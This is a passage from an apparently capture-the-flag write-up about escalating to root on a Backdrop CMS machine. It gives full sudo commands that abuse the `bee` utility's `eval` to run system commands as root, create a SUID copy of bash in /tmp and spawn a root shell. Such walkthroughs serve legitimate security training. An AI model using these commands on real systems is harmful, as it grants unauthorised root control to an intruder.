 Now it's time to investigate the `bee` binary and learn how it's used and what we can make out of it.

Let's try running it and see what's the output.

`/usr/local/bin/bee --help`

From the output we can understand it is used as a Backdrop management utility, offering various functions to configure a Backdrop installation .

We can find an interesting functiuon called `eval` that allows PHP code execution after bootstrapping Backdrop.

![alt text](images/image-19.png)

Using the root directory of Backdrop at `/var/www/html`, where we can find the complete source tree, we can execute PHP code as follows.

Specifying the root of Backdrop using the `--root` parameter found in the `--help` output of `bee`, `eval` executes commands.

`sudo /usr/local/bin/bee --root=/var/www/html eval "system('whoami')"`

![alt text](images/image-20.png)

The output of `whoami` proves that we can execute commands as root.

We copy `/bin/bash` to `/tmp` and make a SUID shell.

`sudo /usr/local/bin/bee --root=/var/www/html eval "system('cp /bin/bash /tmp/bash && chmod u+s /tmp/bash')"`

![alt text](images/image-21.png)

Next we spawn the root shell using `/tmp/bash -p`.

![alt text](images/image-22.png)

---

## Root Flag
As root we can now capture the root flag.

`pwd` indicates that we are on `/home/johncusack`.

We can simply `cd /root` and `cat root.txt`
